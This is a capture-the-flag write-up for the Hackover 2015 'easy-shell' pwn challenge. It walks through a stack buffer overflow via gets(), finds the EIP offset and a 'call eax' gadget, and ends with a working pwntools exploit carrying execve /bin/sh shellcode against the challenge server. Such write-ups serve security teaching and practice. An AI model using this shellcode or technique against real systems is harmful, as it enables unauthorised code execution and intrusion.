

[](ctf=hackover-2015)
[](type=pwn)
[](tags=buffer-overflow,ROP)
[](tools=pwntools,gdb-peda)
[](techniques=ROP)

# easy-shell (pwn-75)

We have a [zip](../easy_shell-2fdf5e4dea11c1e96f0a81971b096e48.tgz) file.
Unzipping it gives us

```bash
$ file easy_shell
easy_shell: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=db8c496a9a78e4d2b5088ef340c422f757888559, not stripped

$ ./easy_shell 

        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\\!!!// .'_.'
       `.`.\\|//.'.'
        |`._`n'_.'| 
        "----^----">>

nom nom, shell> AAAA
```
Easy shell should be easy. Lets start!
Dump of assembler code for function main:

```objdump
   0x080484d6 <+0>:	lea    ecx,[esp+0x4]
   0x080484da <+4>:	and    esp,0xfffffff0
   0x080484dd <+7>:	push   DWORD PTR [ecx-0x4]
   0x080484e0 <+10>:	push   ebp
   0x080484e1 <+11>:	mov    ebp,esp
   0x080484e3 <+13>:	push   ecx
=> 0x080484e4 <+14>:	sub    esp,0x4
   0x080484e7 <+17>:	call   0x804847b <do_stuff>
   0x080484ec <+22>:	mov    eax,0x2a
   0x080484f1 <+27>:	add    esp,0x4
   0x080484f4 <+30>:	pop    ecx
   0x080484f5 <+31>:	pop    ebp
   0x080484f6 <+32>:	lea    esp,[ecx-0x4]
   0x080484f9 <+35>:	ret    
```
It calls another function do_stuff

```objdump
   0x0804847b <+0>:	push   ebp
   0x0804847c <+1>:	mov    ebp,esp
   0x0804847e <+3>:	sub    esp,0x38
   0x08048481 <+6>:	mov    eax,ds:0x80498ec
   0x08048486 <+11>:	sub    esp,0xc
   0x08048489 <+14>:	push   eax
   0x0804848a <+15>:	call   0x8048330 <printf@plt>
   0x0804848f <+20>:	add    esp,0x10
   0x08048492 <+23>:	mov    eax,ds:0x80498f0
   0x08048497 <+28>:	sub    esp,0xc
   0x0804849a <+31>:	push   eax
   0x0804849b <+32>:	call   0x8048340 <fflush@plt>
   0x080484a0 <+37>:	add    esp,0x10
   0x080484a3 <+40>:	sub    esp,0xc
   0x080484a6 <+43>:	push   0x804869a
   0x080484ab <+48>:	call   0x8048330 <printf@plt>
   0x080484b0 <+53>:	add    esp,0x10
   0x080484b3 <+56>:	mov    eax,ds:0x80498f0
   0x080484b8 <+61>:	sub    esp,0xc
   0x080484bb <+64>:	push   eax
   0x080484bc <+65>:	call   0x8048340 <fflush@plt>
   0x080484c1 <+70>:	add    esp,0x10
   0x080484c4 <+73>:	sub    esp,0xc
   0x080484c7 <+76>:	lea    eax,[ebp-0x32]
   0x080484ca <+79>:	push   eax
   0x080484cb <+80>:	call   0x8048350 <gets@plt>
   0x080484d0 <+85>:	add    esp,0x10
   0x080484d3 <+88>:	nop
   0x080484d4 <+89>:	leave  
   0x080484d5 <+90>:	ret    
```
So a gets call. This could mean buffer overflow as there is no stack check. We verify using pattern_create.

```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
gdb-peda$ pattern_create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ b *0x080484d5
Breakpoint 2 at 0x80484d5
gdb-peda$ c
Continuing.

        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\\!!!// .'_.'
       `.`.\\|//.'.'
        |`._`n'_.'| 
        "----^----">>

nom nom, shell> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
gdb-peda$ pattern_search 
Registers contain pattern buffer:
EIP+0 found at offset: 54
EBP+0 found at offset: 50
Registers point to pattern buffer:
[EAX] --> offset 0 - size ~100
[ESP] --> offset 58 - size ~42
```
NX is not enabled.
We get EIP overwrite at 54.
Now our payload format could be :

 > nops+shellcode+ret_addr_to_buffer

Only if we know the address of our shellcode.
But we notice that when do_stuff rets EAX points to our buffer, as can be seen in pattern_search above. Well then we can use other technique called 'return to register'. If we can find an instruction 'call eax' in our binary we'll use it to launch our shellcode.
ROPgadget is such a tool that hels us to find such 'gadgets'.

```bash
$ ROPgadget --binary easy_shell | grep 'call eax'
0x080483dd : adc al, 0x68 ; lock cwde ; add al, 8 ; call eax
0x080483e1 : add al, 8 ; call eax
0x080483e3 : call eax
0x080483e0 : cwde ; add al, 8 ; call eax
0x080483dc : in al, dx ; adc al, 0x68 ; lock cwde ; add al, 8 ; call eax
0x080483da : in eax, -0x7d ; in al, dx ; adc al, 0x68 ; lock cwde ; add al, 8 ; call eax
0x080483df : lock cwde ; add al, 8 ; call eax
0x080483de : push 0x80498f0 ; call eax
0x080483db : sub esp, 0x14 ; push 0x80498f0 ; call eax
```

The instruction at 0x080483e3 is perfect. This will help to execute the payload without knowing the address of shellcode.
Also its less work to do, locating the shellcode on the stack is too tiresome and a pain if ASLR is enabled.

so now our payload format would be:

> nops+shellcode+p32(0x080483e3)


```python
from pwn import *
s=remote('easy-shell.hackover.h4q.it',1337)
for _ in range(10):
	print s.recvline(timeout=5)
addr=p32(0x080483e3)
payload="\x90"*(54-36)+"\x83\xec\x7f\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\x04\x05\x04\x06\xcd\x80\xb0\x01\x31\xdb\xcd\x80"
s.send(payload+addr)
s.interactive()
```

The flag was located in /home/ctf.
[Full exploit](easy_shell.py) in action.



